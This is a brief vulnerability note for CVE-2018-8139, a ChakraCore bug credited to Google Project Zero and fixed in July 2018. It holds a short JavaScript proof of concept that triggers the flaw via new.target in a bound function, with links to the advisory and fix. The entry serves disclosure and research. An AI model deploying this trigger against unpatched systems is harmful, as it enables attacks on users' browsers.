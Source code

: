 # CVE-2018-8139

- Fix: July 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function func() {
    new.target.x;
}

let bound = func.bind({}, 1);

Reflect.construct(bound, []);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8139)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1569)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/ee5dfabc51728f97f6d69e89c88af088251b6b76)
